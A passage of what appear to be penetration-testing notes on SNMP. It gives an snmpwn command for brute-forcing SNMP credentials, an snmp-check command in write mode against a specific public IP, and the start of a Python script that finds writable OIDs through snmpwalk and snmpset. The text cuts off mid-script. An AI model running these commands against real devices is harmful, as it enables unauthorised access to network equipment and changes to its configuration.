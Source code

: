 ‣  `./snmpwn.rb --hosts hosts.txt --users users.txt --passlist passwords.txt --enclist passwords.txt`

### **Change Values in Machine by SET an OID Value**

- ‣ check your permission
    
    `snmp-check 91.216.192.182 -w -c private -p 161`
    
- ‣ check writable OID with python
    
    ```python
    #!/usr/bin/env python3
    
    import sys
    import re
    
    import shlex
    import subprocess
    from subprocess import PIPE
    
    #Debug flag
    debug = False
    
    #Display help 
    if len(sys.argv)==1 or sys.argv[1].lower()=="-h" or sys.argv[1].lower()=="--help":
        usage={}
        usage["desc"] = """Returns the number of writable OIDs and list them.
    Parses the output of 'snmpwalk' and determines all elements that are readable. The return code of 'snmpset' is used to determine if an element's value can be written, by performing a write with the exact actual value.
    """
        usage["cmd"] = f"Syntax:\t{sys.argv[0]} [OPTIONS] AGENT [PARAMETERS] #see man snmpcmd"
        usage["example"] = f"Example: {sys.argv[0]} -v 2c -c public 192.168.0.3"
        usage["disclaimer"] = """
    DISCLAIMAR: The script might change the value of the writable or cause other effects. Use with care.
    """ 
        print("\n".join(usage.values()))
        sys.exit(0)
    
    #Simply the command line options to snmpwalk and snmpset
    options_agent = ' '.join(sys.argv[1:])
    
    cmd = f"snmpwalk {options_agent}"
    args = shlex.split(cmd)
    proc = subprocess.Popen(args, stdout=subprocess.PIPE, stderr=subprocess.DEVNULL)
    out = proc.stdout.read().decode()
    
    if(debug):
        print(f"{cmd}\n{out}\n\n")
    
    #map between snmpwalk output and expected type by snmpset
    type_map = {"INTEGER":'i', "unsigned INTEGER":'u', "UNSIGNED":'u', "TIMETICKS":'t', "Timeticks":'t', "IPADDRESS":'a', "OBJID":'o', "OID":'o',  "STRING":'s', "HEX STRING":'x', "Hex-STRING":'x', "DECIMAL STRING":'d', "BITS":'b', "unsigned int64":'U', "signed int64":'I', "float":'F', "double":'D', "NULLOBJ":'n'}
    